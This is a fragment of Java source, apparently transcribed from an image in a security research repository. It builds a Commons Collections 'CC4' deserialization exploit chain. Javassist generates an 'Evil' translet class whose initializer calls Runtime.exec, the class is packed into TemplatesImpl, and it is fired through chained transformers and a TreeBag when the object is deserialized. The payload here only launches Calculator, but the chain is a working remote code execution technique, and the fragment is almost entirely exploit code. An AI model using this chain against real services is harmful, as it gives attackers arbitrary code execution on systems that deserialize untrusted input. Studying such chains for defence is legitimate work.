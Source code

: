 ```java
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class _class = obj.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        TreeBag treeBag = new TreeBag(transformingComparator);
        treeBag.add(obj);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(treeBag);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```